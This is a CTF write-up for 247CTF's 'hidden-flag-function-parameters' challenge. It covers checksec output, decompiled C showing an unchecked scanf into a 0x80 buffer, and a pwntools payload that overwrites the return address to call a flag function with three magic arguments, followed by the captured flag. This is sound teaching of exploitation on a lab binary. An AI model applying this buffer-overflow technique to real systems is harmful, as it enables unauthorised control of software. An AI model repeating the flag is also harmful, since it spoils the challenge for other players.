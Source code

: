 # Hidden Flag Function

## Introduction

`hidden-flag-function-parameters` is a 130 point binary-exploitation challenge
from
247CTF. The description states:

> Can you control this applications flow to gain access to the hidden flag
> function with the correct parameters?

## Information Gathering

### Hint #1

Hints are for financial supporters of the site, so I don't have access.

### Vulnerability Mitigations

```shell
$ checksec hidden_flag_function_with_args
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Static Analysis

We found a function called `flag` that checks the input parameters to open and
read the flag from `flag.txt`:

```c
void flag(int32_t arg1, int32_t arg2, int32_t arg3)
{
    if ((arg1 == 0x1337 && (arg2 == 0x247 && arg3 == 0x12345678)))
    {
        void var_90;
        fgets(&var_90, 0x80, fopen("flag.txt", "r"));
        printf("How did you get here?\nHave a fl…", &var_90);
    }
}
```

`main` simply prints to stdout and calls `chall`, below:

```c
int32_t chall()
{
    char buf[0x80];
    return __isoc99_scanf("%s", &buf);
}
```

Looks like we have our classic buffer overflow into `buf`. This time we just
need to add our arguments to the stack in order for them to be popped off and
interpreted by `chall` as the parameters to our function.

## Solution

The solution is really the same as the previous challenge,
`hidden-flag-function`, but we need to pass arguments to the function. This
occurs after we're overwritten then return address of `chall` to point to
`flag`. We then push our values to the stack in reverse order (as interpreted
by the stack), and call `chall` with the parameters like so:

```python
# Create the payload.
payload = fit({
    offset: p32(exe.symbols['flag']),
    # Magic bytes found in the function `flag`. Check the README.
    offset + 8: p32(0x1337),        # $ebp + 8
    offset + 12: p32(0x247),        # $ebp + 12
    offset + 16: p32(0x12345678),   # $ebp + 16
})
```

Sending this to the remote server grants us the flag:
`247CTF{da70c8d41fc43fc59cf04f4e591c9ad6}`
